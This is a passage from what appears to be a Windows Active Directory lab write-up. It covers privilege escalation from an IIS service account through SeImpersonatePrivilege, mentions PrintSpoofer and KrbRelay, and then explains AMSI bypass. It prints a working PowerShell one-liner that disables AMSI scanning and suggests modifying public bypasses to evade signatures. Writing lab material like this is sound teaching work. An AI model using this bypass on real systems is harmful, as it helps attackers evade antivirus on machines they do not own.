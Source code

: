 - As a IIS service user we got SeImpersonatePrivilege privilege ! (same thing on mssql, the service got this permission by default)

## Privesc

- There is a lot of privesc technics on microsoft windows. Here we will just try two that got a "not fix" by microsoft, printspoofer and krbrelay.

![privesc_mindmap.png](/assets/blog/GOAD/privesc_mindmap.png)

- As the privesc is run on the target computer, in this chapter we will do some powershell to escalate our privileges.


### AMSI bypass

>To do all my tests, i enable windows defender on all system.
>Castelblack got defender disabled by default, you should enable it before testing the privesc technics described here

- To be able to play usually AV detected application from memory you should bypass the Anti Malware Scanning Interface (AMSI) on the current process

- There is multiple ways to bypass AMSI and you can find them on the github page : [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

- Also you can find custom generated payload in this website [amsi.fail](https://amsi.fail/) 

- All the public available method seems to be signed, but we can also pick one and make some hand made small modifications on it

- Original :

```powershell
# Matt Graebers second Reflection method
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x41414141)
```
